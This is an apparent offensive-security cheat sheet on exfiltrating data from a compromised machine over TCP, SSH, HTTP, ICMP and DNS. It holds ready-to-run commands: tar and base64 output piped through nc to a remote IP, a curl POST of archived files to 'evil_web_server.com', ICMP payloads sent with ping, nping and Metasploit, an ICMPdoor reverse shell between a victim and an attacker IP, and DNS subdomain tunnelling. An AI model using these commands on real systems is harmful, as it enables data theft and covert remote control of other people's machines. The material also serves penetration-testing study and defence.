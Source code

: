 ```yaml
---
category: Uncategorized
tags: []
---
```

# TCP
```bash
# encoding the contents of the file and sharing over tcp connection
# 1. create a gunzip archive of all the files
# 2. Convert it to base64
# 3. encode it with EBCDIC format and send the data
tar czf - folder/ | base64 | dd conv=ebcdic | nc 192.168.5.4 8888

# Recive the files
nc -nvlp 8888 | dd conv=ascii | base64 -d | tar xzf -
```
# SSH
```bash
# Method 1 - scp - secure copy
scp files/* user@mymachine

# Method 2 - if scp is not available
tar czf - files/ | ssh user@mymachine "mkdir /tmp/recieved ; tar xzf -"
```
# HTTP/HTTPS
- POST method
- Need a webserver capable of handling uploads
- Example: PHP
```php
<?php
if (isset($_POST['file'])) {
	$file = fopen("/tmp/file.b64","w");
	fwrite($file,$_POST['file']);
	fclose($file);
}
?>
```
- Data from victime machine can be exfiltered using curl:
```bash
curl --data="file=$(tar czf - files/ | base64)" http://evil_web_server.com
```
# ICMP
- `ICMP`: Internet Control Message Protocol.
- Ping command in linux can add 16 bytes of data to the ICMP packet using `-p` option, in hex representation.
- `xxd` can be used to convert string to hex:
```bash
# convert string to hex
echo "drdragon" | xxd -p
```
- Data can be exfiltrated using ping command (linux) or directly using nping command (from nmap)
```bash
ping <remote_host> -c 1 -p 6472647261676f6e
nping --icmp <remote_host> -c 1 --data-string "drdragon"
```
### Metasploit
- This can be achieved using `Metasploit's icmp_exfil module`
- This module listens for an BOF (Beginning of file) trigger, then writes the data to disk then waits for EOF (End of file).
- `BPF_FILTER` option of this modules takes a `tcpdump` rule.
```bash
set BPF_FILTER icmp and not src <my_ip>
```
- Data can be send using
```bash
sudo nping --icmp -c 1 <remote_host> --data-string "BOFadmin.txt"
sudo nping --icmp -c 1 <remote_host> --data-string "data:data"
sudo nping --icmp -c 1 <remote_host> --data-string "EOF"
```
### ICMPdoor
- Opensource reverse shell written in python3. Uses ICMP data section to send commands.
- On the Victim Machine
```bash
sudo icmpdoor -i <interface> -d <attacker_ip>
```
- On the Attacker machine
```bash
sudo icmp-cnc -i <interface> -d <victim_ip>
```
### DNS
- Setup a Domain name. eg: drdragon.com
- Add a NS which points to a malicious dns server, that we control.
- Encode the data and send the data via subdomain name.
```bash
aioh3ioh53oi5ho3i2.drdragon.com
```
NOTE: The whole URL must be 255 chars long and the subdomain must be less than 63 chars.
```bash
dig aioh3ioh53oi5ho3i2.drdragon.com +short
```
- One the nameserver that you control:
```bash
sudo tcpdump -i eth0 udp port 53 -v
```